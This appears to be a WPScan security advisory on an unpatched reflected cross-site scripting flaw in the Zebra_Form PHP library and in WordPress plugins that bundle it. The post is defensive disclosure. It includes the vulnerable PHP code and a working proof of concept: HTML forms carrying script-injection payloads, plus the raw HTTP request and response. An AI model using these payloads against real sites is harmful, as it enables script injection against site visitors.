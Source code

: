 ```yaml
---
layout: post
title: "Vulnerability in Zebra_Form PHP Library Affects Multiple WordPress Plugins"
---
```


The WPScan security research team identified an Unauthenticated Reflected Cross-Site Scripting (XSS) vulnerability within the [Zebra_Form](https://github.com/stefangabos/Zebra_Form/) PHP library, which is used by multiple WordPress plugins.

While investigating a [dubious advisory](https://cxsecurity.com/issue/WLB-2021010104) related to a Cross-Site Scripting (XSS) vulnerability in the wp-ticket plugin, the Zebra_Form library was found to be responsible for the issue. At the time of writing, despite contacting the vendor multiple times, the latest version of Zebra_Form, version 2.9.8, is still affected.

Fortunately, the affected WordPress plugins were no longer maintained, or had a small number of active installations. Nevertheless, we wanted to make the public aware of the vulnerability affecting Zebra_Form in case it is used elsewhere.

### Advisory Summary

The [Zebra_Form](https://github.com/stefangabos/Zebra_Form/) PHP library, versions 2.9.8 and below, used by multiple WordPress plugins, is affected by a Unauthenticated Reflected Cross-Site Scripting (XSS) vulnerability in its `process.php` file. Please note that a full security review of the Zebra_Form PHP library has not been conducted by WPScan.

After confirming the initial Cross-Site Scripting (XSS) vulnerability in the Zebra_Form PHP library, the WPscan security research team checked the WordPress plugin repository to see if any other plugins were using the vulnerable Zebra_Form library. The following plugins were found to use the vulnerable Zebra_Form PHP library:

- [wp-ticket](https://wordpress.org/plugins/wp-ticket/) < 5.6.0
- [teaser-maker-standard](https://wordpress.org/plugins/teaser-maker-standard/) <= 0.1.114 (latest, has been closed)
- [ad-swapper](https://wordpress.org/plugins/ad-swapper/) <= 1.0.3 (latest, has been closed)
- [drug-search](https://wordpress.org/plugins/drug-search/) <= 1.0.0 (latest, has been closed)
- [wp-inimat](https://wordpress.org/plugins/wp-inimat/) <= 1.0 (latest, has been closed)

This vulnerability has a the following risk score:

CVSS: 6.1 (Medium) [CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N)

### Technical Details

The [process.php](https://github.com/stefangabos/Zebra_Form/blob/2.9.8/process.php) outputs the `form` and `control` GET parameters, in a JavaScript block, without validating or santisating them first. This results in Reflected Cross-Site Scripting issues when submitting crafted requests to the file.

```php
} elseif (

    isset($_FILES) &&
    is_array($_FILES) &&
    !empty($_FILES) &&
    isset($_GET['form']) &&
    isset($_GET['control']) &&
    isset($_FILES[$_GET['control']])

) {

    function process() {

        // the form that initiated the request
        $form = $_GET['form'];

        // the file upload control on the form that initiated the request
        $control = $_GET['control'];
        
        [.. more code w/o sanitisation ..]
        
        ?>

        <script type="text/javascript">
            var f=parent.window.$('#<?php echo $form?>');
            if(undefined!=f){
                f.data('Zebra_Form').end_file_upload('<?php echo $control . '\'' . (isset($file) ? ',[\'' . addcslashes($file['name'], '\'') . '\',\'' . $file['type'] . '\',\'' . $file['error'] . '\',\'' . $file['size'] . '\']' : '')?>)
            }
        </script>
```

### Proof of Concept

- Install one of the affected plugins, or the Zebra_Form library directly, change the `action` form attribute in the code below to the correct value and save it as an HTML file.
- Open the saved file in a web browser (tested with Firefox 84 and the `wp-ticker` plugin v5.5.0), provide any file via one of the input and send the form to trigger the XSS.

```html
Via $_GET['form']:<br/><br/>
<form action="https://example.com/wp-content/plugins/wp-ticket/assets/ext/zebraform/process.php?form=</script><img src onerror=alert(/XSS-form/)>&control=upload" method="post" enctype="multipart/form-data">
    <input type="file" name="upload"/>
    <input type="submit" name="submit" value="Send">
</form>
<br/>

Via $_GET['control']:<br/><br/>
<form action="https://example.com/wp-content/plugins/wp-ticket/assets/ext/zebraform/process.php?form=f&control=</script><svg/onload=alert(/XSS-control/)>" method="post" enctype="multipart/form-data">
    <input type="file" name="</script><svg/onload=alert(/XSS-control/)>"/>
    <input type="submit" name="submit" value="Send">
</form>
```

Which will make a request like:
```
POST /wp-content/plugins/wp-ticket/assets/ext/zebraform/process.php?form=%3C/script%3E%3Cimg%20src%20onerror=alert(/XSS-form/)%3E&control=upload HTTP/1.1
Host: example.com
User-Agent: YOLO
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------77916619616724262872902741074
Content-Length: 241
Origin: null
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------77916619616724262872902741074
Content-Disposition: form-data; name="upload"; filename="a.txt"
Content-Type: text/plain

Test

-----------------------------77916619616724262872902741074--
```

And result in the below response:
```html
HTTP/1.1 200 OK
Server: Apache
Vary: Accept-Encoding
Content-Length: 207
Connection: close
Content-Type: text/html; charset=UTF-8

<script type="text/javascript">var f=parent.window.$('#</script><img src onerror=alert(/XSS-form/)>');if(undefined!=f){f.data('Zebra_Form').end_file_upload('upload',['a.txt','text/plain','0','20'])}</script>
```

### Remediation

As there is no patch for the Cross-Site Scripting (XSS) vulnerability at the time of writing, it is recommended that the affected plugins be removed.

The Zebra_Form maintainers should properly validate and encode the `form` and `control` parameters before outputting them in the JavaScript code.

### Timelime

- January 13th, 2021 - Issue investigated and confirmed, [Zebra_Form vendor contacted](http://stefangabos.ro/contact/)
- January 13th, 2021 - Zebra Vendor replied that a fix will be coming in the next few days
- January 14th, 2021 - Report shared with WordPress plugins team for coordination on the affected plugins (which have been closed in the meantime)
- February 4th, 2021 - Re-contacted vendor for updates
- February 15th, 2021 - No updates, disclosing on WPScan blog